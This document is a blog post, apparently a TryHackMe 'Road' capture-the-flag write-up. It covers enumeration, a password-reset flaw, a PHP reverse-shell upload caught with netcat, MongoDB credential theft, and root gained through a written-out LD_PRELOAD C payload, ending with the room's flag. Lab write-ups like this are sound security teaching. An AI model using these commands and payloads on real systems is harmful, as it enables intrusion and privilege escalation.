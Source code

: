 ```yaml
---
layout: post
title:  "Road"
date:   2024-05-07 16:53:59 +0100
categories: jekyll update
---
```


# Road
```sh
export IP=M_ip
```
# Enumeration:

```sh
nmap -A -sC -sV $IP
```
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 20:57 CEST
Nmap scan report for 10.10.0.79
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# In the first dir bruteforce:

```sh
gobuster dir -u http://10.10.0.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/v2                   (Status: 301) [Size: 305] [--> http://10.10.0.79/v2/]
```
# In the second dir bruteforce:
```sh
gobuster dir -u http://10.10.0.79/v2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/admin                (Status: 301) [Size: 311] [--> http://10.10.0.79/v2/admin/]
```
visiting /v2/admin:

![Screenshot_25](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/55ac3812-1da6-47f6-be51-f3b26915689d)


I found /ResetUser.php  so i was able to changed admin password in burpsuite, like this : 

![Screenshot_27](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/39a6fd6f-d2c8-44c9-8775-2821fe690832)


By doing this i found upload avatar in the Profile
That might get us to manipulate the php-reverse-shell extension to be .php instead of .jpg 


![Screenshot_26](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/6e2bedaf-595b-4c9e-b760-7e7e3d2ce203)



![Screenshot_28](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/ccfb0248-3d53-49fd-8313-411d09fe0cd9)


This is the dir that has our revshell i found it in the admin  /profile.php  source code 

![Screenshot_29](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/cb24afb2-0e7a-48e7-ac78-6ea2f4e66395)

# Initial Access:

```sh
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.0.79] 37742
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:02:45 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
# Privilege escalation:
```sh
www-data@sky:/$ ss -tulpn
Netid State  Recv-Q  Send-Q     Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0       0          127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0       0        10.10.0.79%eth0:68           0.0.0.0:*            
tcp   LISTEN 0       70             127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0       511            127.0.0.1:9000         0.0.0.0:*            
tcp   LISTEN 0       4096           127.0.0.1:27017        0.0.0.0:*            
tcp   LISTEN 0       151            127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0       4096       127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0       128              0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0       511                    *:80                 *:*            
tcp   LISTEN 0       128                 [::]:22              [::]:*
```
```sh
There is:
port 33060: default port for MYSQL  
port 27017: default port for MongoDB
```

```sh

> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "fakePassword" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```
```sh
ssh webdeveloper@IP 
```
```sh
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
LD_PRELOAD is an environment variable in Unix-like systems, such as Linux, that allows you to specify additional shared libraries to be loaded before all others.
With this i could write c code script to spawn a root shell ,shell.c
```sh
#include <stdio.h> 
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
 	unsetenv("LD_PRELOAD");
 	setgid(0);
 	setuid(0);
 	system("/bin/bash");
}
```
# compile the code:
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
and run
sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
```
```sh
webdeveloper@sky:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
root@sky:/home/webdeveloper# cd /root
root@sky:~# ls
root.txt
root@sky:~# cat root.txt 
3a62d897c40a8flag
root@sky:~#

```